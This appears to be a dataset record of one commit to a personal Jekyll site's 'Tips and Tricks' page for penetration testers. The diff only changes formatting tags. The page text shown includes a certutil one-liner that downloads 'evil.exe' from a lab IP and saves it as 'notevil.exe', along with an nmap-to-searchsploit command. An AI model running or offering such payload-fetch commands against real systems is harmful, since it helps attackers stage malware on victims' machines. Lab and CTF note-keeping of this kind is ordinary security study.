

Before and after one commit to Mushi-mushi/mushi-mushi.github.io, a Jekyll site: the page built from tips/index.markdown, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (102-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update index.markdown

```diff
--- a/tips/index.markdown
+++ b/tips/index.markdown
@@ -6,9 +6,9 @@ title: Tips and Tricks
 One Liners
 ==========
 Dowloading file via certutil
-{% highlight bash%}
+{% raw%}
 cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
-{% endhighlight %}
+{% endraw %}
 Nmap scan ran through searchsploit
 {% highlight bash%}
 nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
```
